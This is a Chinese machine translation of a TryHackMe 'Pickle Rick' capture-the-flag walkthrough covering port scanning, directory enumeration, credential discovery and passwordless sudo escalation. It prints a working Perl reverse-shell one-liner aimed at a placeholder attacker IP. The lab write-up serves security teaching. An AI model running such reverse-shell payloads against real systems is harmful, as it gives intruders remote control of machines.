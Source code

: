 # pickle Rick-TryHackMe 报道

> 原文：<https://infosecwriteups.com/picklerick-tryhackme-writeup-74c6fedae081?source=collection_archive---------1----------------------->

Pickle Rick 是一个以 Rick 和 Morty 为主题的 tryhackme 房间，在这里我们利用网络服务器找到 3 种配料或旗帜。

![](img/25335e583facdbce4d1272c92bc97d37.png)

先说枚举。

# 端口扫描

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020–04–10 15:35 IST
Nmap scan report for 10.10.222.8
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.54 seconds
```

Nmap 给出了这个结果，并且只有 2 个端口是打开的。

让我们前进到运行在端口 80 上的网站。

![](img/3b2c2ef605054d09ce34dd2aa7936d72.png)

该网页出现在端口 80 上。这里没有有用的数据。

但是如果我们检查页面源代码呢？

![](img/cbda21b139a8f75a31bc37bca8c881fe.png)

我们在 HTML 注释中得到一个用户名！！

```
Note to self, remember username!

Username: R1ckRul3s
```

但是我们必须在哪里使用它呢？

## 更多枚举！！！！！

我用 dirsearch 找到感兴趣的目录和文件。

```
[15:49:33] 301 -  311B  - /assets  ->  [http://10.10.222.8/assets/](http://10.10.222.8/assets/)
[15:49:40] 200 -    1KB - /index.html
[15:49:42] 200 -  882B  - /login.php
[15:49:47] 200 -   17B  - /robots.txt
```

Dirsearch 结果给了我几个目录，可能是有趣的。

/assets 有 GIF、CSS、JS 文件，这些文件正在网站上使用，没有什么有趣的东西。

![](img/b98a35b266ffa9814865b9d2673d33bb.png)

我浏览了 robots.txt 文件，看看有没有什么有趣的东西。

![](img/dd0230fd8b9a15fb779659581f556d06.png)

它有这个奇怪的字符串*wubbalubadub*

接下来看到的是 dirsearch 找到的最有趣的页面，登录页面！

![](img/304d4b80d5db933bad84cdf729c78cdb.png)

/login.php 提供了这个基本的登录页面！我们有一个在页面源代码中找到的用户名！*R1 ckrul3s*’。

密码可能是什么！！！也许是我们在 robots.txt 里找到的诡异字符串？

我试了用户名' *R1ckRul3s* ，密码'*wubbalubadubdub*。

**登录成功！！！**

我们被重定向到/portal.php，其中给出了一个命令面板。

![](img/9bf80b72f385cefd341c0aa029cc1765.png)

正在尝试' *ls'* 列出目录中的所有文件，包括'*sup 3rs 3 cretpickl3ingred . txt '*

但是等等！！我们无法读取文件！如果我们输入“cat Sup3rS3cretPickl3Ingred.txt ”,则会出现一个错误

![](img/ceaafb903e3ffc2ba984e086cb69c312.png)

前往 [Pentest Monkey 的反向壳 Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 。

我试过 bash reverse shell payload，但是没用，接下来是 perl payload。

```
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

这个有效载荷起作用了！！！我们使用 perl 反向 shell 有效负载获得了 shell。

![](img/e27286027c2ff91e7fa2b3e5b0fabf6e.png)

我们有了第一面旗帜，机器里还有 2 面旗帜。让我们读一下 clue.txt，看看有没有什么能让我们找到 2 号标志。

线索内容:txt :-

```
Look around the file system for the other ingredient.
```

我尝试在几个目录中查找标志，最终在用户“rick”的主目录中找到了第二个标志

![](img/8a04b220138daf7e3b67b6fc85c5595d.png)

嗨哟！第三面旗子还在机器里的某个地方！！

我试着 *sudo -l* 看看我们是否有任何 sudo 权限！

![](img/f05967ce6abcb53c3bc4a5034f0e681e.png)

## 我们可以使用任何命令作为根没有密码！！！

我们得到了/根目录中的第三个标志！

![](img/c7a9450e5feb34f6dbac2fe41ad3e56c.png)

使用不同的反向 shell 有效载荷可能实际上是有益的，也许我们可以访问！！

感谢您阅读这篇文章！希望你喜欢；-)

联系我:

[](https://twitter.com/RitikSahni22) [## 里提克·萨尼(http.deep)

### 里提克·萨尼的最新推文(http.deep) (@RitikSahni22)。网络安全爱好者！👨‍💻臭虫猎人🔎💡CTF…

twitter.com](https://twitter.com/RitikSahni22) 

电子邮件:ritiksahni0203@gmail.com

干杯！

里提克·萨尼

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)